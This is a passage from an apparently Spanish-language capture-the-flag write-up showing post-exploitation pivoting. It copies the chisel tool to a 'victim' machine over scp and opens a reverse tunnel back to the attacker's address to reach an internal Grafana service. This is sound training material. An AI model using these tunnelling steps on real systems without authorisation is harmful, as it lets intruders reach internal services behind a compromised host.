 Podríamos aplicar **Port Forwarding** para poder ver la página desde nuestro navegador.

<br>

<h2 id="pForwarding">Aplicando Port Forwarding para Ver Login de Grafana</h2>

Tenemos varías formas que podemos utilizar para aplicar **Port Forwarding**. 

Vamos a ver algunas.

<br>

<h3 id="chisel">Aplicando Port Forwarding Remoto con chisel</h3>

Primero, vamos a descargar la herramienta **chisel**:
* <a href="https://github.com/jpillora/chisel" target="_blank">Repositorio de jpillora: chisel</a>

Una vez descargado, lo descomprimimos con **gunzip**:
```bash
gunzip chisel_1.10.1_linux_amd64.gz
.
mv chisel_1.10.1_linux_amd64 chisel
```

Y lo mandamos a la máquina víctima con **scp**:
```bash
scp chisel pinguinito@192.168.1.160:/home/pinguinito
pinguinito@192.168.1.160's password: 
chisel
```

Ahora, vamos a usar **chisel** en nuestra máquina para poder alzar un servidor con un puerto random:
```bash
./chisel server --reverse -p 1234
2025/03/10 20:28:12 server: Reverse tunnelling enabled
2025/03/10 20:28:12 server: Fingerprint Zn...
2025/03/10 20:28:12 server: Listening on http://0.0.0.0:1234
```

Dentro del **SSH**, utilizamos **chisel** como cliente para conectarnos a nuestro servidor y ahí aplicamos **Port Forwarding** para mostrar el **puerto 3000** en nuestro **puerto 3000** de nuestra máquina:
```bash
pinguinito@ballenasio:~$ ./chisel client Tu_IP:1234 R:3000:172.17.0.2:3000
2025/03/11 02:29:07 client: Connecting to ws://Tu_IP:1234
2025/03/11 02:29:07 client: Connected (Latency 1.595801ms)
```
Listo.

Ahora, podemos visitar la página de **Grafana** en `localhost:3000`:

<p align="center">